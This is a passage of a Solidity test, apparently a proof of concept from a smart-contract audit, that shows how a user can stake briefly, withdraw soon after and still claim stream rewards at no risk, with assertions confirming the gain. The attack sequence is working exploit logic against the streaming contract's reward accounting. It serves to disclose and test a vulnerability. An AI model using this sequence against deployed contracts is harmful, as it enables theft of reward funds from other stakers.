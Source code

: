 ```solidity
        address(testTokenB),
        uint32(block.timestamp + 10), 
        maxStreamDuration,
        maxDepositLockDuration,
        0,
        false
        // false,
        // bytes32(0)
    );
    
    testTokenA.approve(address(stream), type(uint256).max);
    stream.fundStream(1_000_000_000);

    // wait till the stream starts
    hevm.warp(block.timestamp + 16);
    hevm.roll(block.number + 1);

    // just interact with contract to fill "lastUpdate" and "ts.lastUpdate" 
// without changing balances inside of Streaming contract
    alice.doStake(stream, address(testTokenB), stakeAmount);
    alice.doWithdraw(stream, stakeAmount);


    ///// ATTACK COMES HERE
    // stake
    alice.doStake(stream, address(testTokenB), stakeAmount);

    // wait a block
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + 16);

    // withdraw soon thereafter
    alice.doWithdraw(stream, stakeAmount);

    // finish the stream
    hevm.roll(block.number + 9999);
    hevm.warp(block.timestamp + maxDepositLockDuration);

    // get reward
    alice.doClaimReward(stream);


    // accounting (to proof attack): save the rewardBalance of alice / save balance of stakeToken
    uint EndBalanceA = testTokenA.balanceOf(address(alice));
    uint EndBalanceB = testTokenB.balanceOf(address(alice));

    // Stream returned everything we gave it
    // (doStake sets balance of alice out of thin air => we compare end balance against our (thin air) balance)
    assert(stakeAmount == EndBalanceB);

    // we gained reward token without risk
    assert(StartBalanceA == 0);
    assert(StartBalanceA < EndBalanceA);
    emit log_named_uint("alice gained", EndBalanceA);
}
```
